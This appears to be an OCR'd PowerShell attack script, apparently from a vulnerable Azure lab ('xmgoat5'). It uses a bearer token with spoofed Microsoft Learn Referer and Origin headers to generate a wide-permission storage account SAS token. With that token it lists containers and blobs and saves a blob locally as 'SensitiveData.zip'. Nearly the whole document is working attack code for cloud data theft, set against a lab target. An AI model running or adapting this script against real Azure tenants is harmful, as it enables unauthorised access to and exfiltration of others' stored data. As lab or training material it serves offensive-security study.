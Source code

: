 $method = "POST"
$URI = "https://management.azure.com:443/subscriptions/$($uriParam[0])/resourceGroups/$($uriParam[1])/providers/Microsoft.Storage/storageAccounts/xmgoat5/ListAccountSas?api-version=2022-09-01"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "management.azure.com")
$headers.Add("Referer", "https://learn.microsoft.com/")
$contentType = "application/json"
$headers.Add("Authorization", "Bearer $($id5Token)")
$headers.Add("Origin", "https://learn.microsoft.com")
$body = "{
signedExpiry: `"2024-07-10T14:34:31.9776110Z`",
signedPermission: `"wrdlacup`",
signedResourceTypes: `"cso`",
signedServices: `"bqtf`"

}"
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers -ContentType $contentType -UserAgent $userAgent -Body $body, $URIParams)
$SAStoken = $response.content.split(':')[1].split('"')[1]


#----------------ListContainers-------------------#

$method = "GET"
$URI = "https://xmgoat5.blob.core.windows.net:443/?comp=list&$($SAStoken)"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "xmgoat5.blob.core.windows.net")
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers)
$data = $response.Content

#Container Name
$Container = [Regex]::Match( $data, '(?s)<Name>(\w*-\w*)</Name>' ).Groups.Value[1]



#----------------ListBlob-------------------#

$method = "GET"
$URI = "https://xmgoat5.blob.core.windows.net:443/$($Container)?restype=container&comp=list&$($SAStoken)"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "xmgoat5.blob.core.windows.net")

$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers)
$blobName = [Regex]::Match( $response.Content,'(?s)<Name>(\w.*)</Name>').Groups.Value[1]


#----------------DownloadBlob-------------------#

$method = "GET"
$URI = "https://xmgoat5.blob.core.windows.net:443/$($Container)/$($blobName)?$($SAStoken)"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "xmgoat5.blob.core.windows.net")
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers)

Set-Content "SensitiveData.zip" -Value $response.Content -Encoding Byte

